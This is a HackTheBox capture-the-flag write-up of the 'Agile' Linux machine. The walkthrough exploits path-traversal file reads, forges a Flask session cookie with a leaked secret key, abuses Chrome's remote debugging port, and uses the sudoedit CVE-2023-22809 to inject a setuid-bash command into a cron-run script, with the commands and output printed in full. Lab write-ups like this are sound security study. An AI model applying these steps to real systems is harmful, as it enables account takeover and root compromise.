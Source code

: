 ```yaml
---
layout: single
title: Agile hackthebox writeup
excerpt: "Medium linux machine in which we get LFI forge our own flask token, exploit Chrome in debug mode and use a sudo CVE to privesc"
date: 2023-04-07
classes: wide
header:
  teaser: /assets/images/agile/agile_icon.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - cron
  - LFI
  - flask
---
```


![](/assets/images/agile/agile.png)

## User Flag

**Machine has been patched user flag is no longer obtainable this way**

```shell
$ nmap -sS -n -Pn -p- -vv -min-rate 5000 -oN allports 10.10.11.203
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

As usual a webpage. In this case, it's called `superpass.htb` so you need to add it to your `/etc/hosts`. The web is a password manager. We can export our passwords as a csv file, If we intercept with burpsuite we can see it is going to

```http
GET /download?fn=something.csv
```

This part is vulnerable to LFI. Also when a file doesn't exist it gives out an error with quite some verbosity that lets us expose the source code.

```http
GET /download?fn=../app/app/superpass/app.py
```

exposing this file we get the secret key so we can forge our own cookie.
```shell
$ flask-unsign --decode --cookie '.eJwlzj0OwjAMQOG7ZGZI_Bv3MlWc2IK1pRPi7lRiftLT9yl7HnE-y_Y-rniU_bXKVix8KQxiAwtoDKrKiKGynAgpW-dFxmmIZt3cxhCx6cNd67Sqc8moc4xkS7lTnc2DubmSwuqQAvewkifPoN61OgKIZW2BUG7Idcbx1zQs3x-Sti5F.ZC_nKA.3UgNbfeZ1I2p6znKK9gH_Rl6WOo'
{'_fresh': True, '_id': '9ebd72a45929e2152777533e76db4434f185d495f9339989b9aa669cbabb70c907cd6a0caaf59f66690c1be551b7472d82f6253304bf5ce48870b32269f01e32', '_user_id': '13'}
$ flask-unsign --sign --cookie "{'_fresh': True, '_id': '9ebd72a45929e2152777533e76db4434f185d495f9339989b9aa669cbabb70c907cd6a0caaf59f66690c1be551b7472d82f6253304bf5ce48870b32269f01e32', '_user_id': '1'}" --secret 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
.eJwlzj0KwzAMQOG7eO4g68eycplg2RLtmjRT6d0b6Pzg8X3Knkecz7K9jyseZX-tshULX4qDxdACq6CqClFoW85MnLXLYpM0IrNubmO0ZtOHu8I00LnagDlGimW7E8zqIVJdWXF1zIb3ENhTZnDvCk6IzRJqEJYbcp1x_DW1fH9kqi4S.ZC_1kw.a6k3_78zSoDjIeqVEawowX6oKMI
```

with this we get corum's password.

```shell
$ ssh corum@superpass.htb
```

## Root flag

First, we escalate to user edwars. By executing linpeas we can see that Chrome is in debugging mode on port 41829. So we make an ssh tunnel and with a Chrome-based browser open (in my case brave) `brave://inspect/#devices` in the configuration we enable port forwarding a then the web will appear, we click inspect. Now we are logged in as edwards in a superpass test version we can get his password.

```shell
edwards@agile:/home/corum$ sudo -l
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt

edwards@agile:/home/corum$ sudoedit --version
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```

This sudo version is vulnerable to CVE-2023-22809. That makes editing any file as dev_admin possible. If we also execute pspy we can see that `/app/venv/bin` is being executed by a cron job to make changes to the testing app. So if we edit `/app/venv/bin/activate` (which activates the venv) we can get root. The exploit can be used like

```shell
edwards@agile:/app/venv/bin$ EDITOR='vim -- /app/venv/bin/activate' sudoedit -u dev_admin /app/config_test.json
```

Then we can edit `/app/venv/bin/activate`, just add `chmod u+s /bin/bash` and wait until the cron job is executed.

```shell
edwards@agile:/app/venv/bin$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
edwards@agile:/app/venv/bin$ bash -p
edwards@agile:/app/venv/bin# whoami
root
```
